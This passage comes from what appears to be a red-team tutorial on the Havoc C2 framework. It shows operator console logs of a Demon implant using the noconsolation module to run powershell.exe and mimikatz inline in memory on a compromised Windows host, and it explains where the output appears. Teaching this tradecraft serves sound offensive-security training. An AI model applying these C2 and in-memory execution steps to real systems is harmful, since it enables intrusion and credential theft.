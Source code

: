 ```
24/01/2024 08:16:30 [Neo] Demon » noconsolation --local C:\windows\system32\windowspowershell\v1.0\powershell.exe $ExecutionContext.SessionState.LanguageMode

[*] [BF329D78] Tasked demon to run powershell.exe inline
[+] Send Task to Agent [31 bytes]
[+] Received Output [14 bytes]:
FullLanguage


[+] Received Output [4 bytes]:

done

[*] BOF execution completed
```

Binaries are automatically encrypted and stored in memory after they are ran the first time. This means that you do not need to constantly send the binary over the wire and you could instead do something like this the next time around:

```
29/08/2024 20:45:19 [ori] Demon » noconsolation powershell.exe $ExecutionContext.SessionState.LanguageMode
[*] [02D5F14B] Tasked demon to run powershell.exe inline
[+] Send Task to Agent [31 bytes]
[+] Received Output [14 bytes]:
FullLanguage

[+] Received Output [4 bytes]:
done
[*] BOF execution completed
```

Like we already mentioned, this module also supports running executables that are not already on the Windows system. For example, we could run `mimikatz`:

```
24/01/2024 08:19:59 [Neo] Demon » noconsolation /home/kali/SquidGuard/mimikatz.exe "coffee" "exit"

[*] [2690B5DF] Tasked demon to run mimikatz.exe inline
[+] Send Task to Agent [31 bytes]
[+] Received Output [4 bytes]:

done

[*] BOF execution completed
```

It seems like we did not get any output back. Actually, we did. Just not in the place you might expect:

![](/assets/imgs/havoc-c2/Pasted image 20240219143746.png)

It looks like our command's results appear in the output of our loader's execution. At this point in time, this isn't a problem as we have a way to see the output. However, consider a scenario in which we were able to obtain a shell and no access to the user's desktop. In that case, we won't be able to see any output and thereby, the command's execution proves to be useless. We will go over yet another way of executing *PE's* inline later on this module.
